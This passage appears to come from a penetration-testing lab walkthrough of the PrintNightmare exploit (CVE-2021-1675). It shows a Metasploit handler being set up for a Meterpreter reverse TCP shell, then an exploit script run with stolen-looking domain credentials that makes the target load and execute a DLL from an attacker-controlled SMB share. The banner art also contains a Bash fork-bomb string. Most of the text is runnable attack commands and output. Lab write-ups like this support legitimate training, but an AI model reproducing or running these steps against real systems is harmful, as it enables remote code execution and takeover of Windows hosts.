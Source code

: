 ```text
                      :we're.all.alike'`                     The.PFYroy.No.D7:
                      :PLACEDRINKHERE!:                      yxp_cmdshell.Ab0:
                      :msf>exploit -j.                       :Ns.BOB&ALICEes7:
                      :---srwxrwx:-.`                        `MS146.52.No.Per:
                      :<script>.Ac816/                        sENbove3101.404:
                      :NT_AUTHORITY.Do                        `T:/shSYSTEM-.N:
                      :09.14.2011.raid                       /STFU|wall.No.Pr:
                      :hevnsntSurb025N.                      dNVRGOING2GIVUUP:
                      :#OUTHOUSE-  -s:                       /corykennedyData:
                      :$nmap -oS                              SSo.6178306Ence:
                      :Awsm.da:                            /shMTl#beats3o.No.:
                      :Ring0:                             `dDestRoyREXKC3ta/M:
                      :23d:                               sSETEC.ASTRONOMYist:
                       /-                        /yo-    .ence.N:(){ :|: & };:
                                                 `:Shall.We.Play.A.Game?tron/
                                                 ```-ooy.if1ghtf0r+ehUser5`
                                               ..th3.H1V3.U2VjRFNN.jMh+.`
                                              `MjM~~WE.ARE.se~~MMjMs
                                               +~KANSAS.CITY's~-`
                                                J~HAKCERS~./.`
                                                .esc:wq!:`
                                                 +++ATH`
                                                  `

       =[ metasploit v6.0.49-dev                          ]
+ -- --=[ 2142 exploits - 1141 auxiliary - 365 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: View missing module options with show missing
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.0.3
LHOST => 192.168.0.3
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.0.3:443
```

Switch to another console and run exploit:

```text
┌──(root💀kali)-[/home/kali]
└─# cd /root/cve                                       

┌──(root💀kali)-[~/cve]
└─# ./CVE-2021-1675.py SPEN/pparker:Password1@192.168.0.50 '\\192.168.0.3\smb\pencer.dll'
[*] Try 1...
[*] Connecting to ncacn_np:192.168.0.50[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL
[*] Executing \\192.168.0.3\smb\pencer.dll
[*] Stage0: 0
```
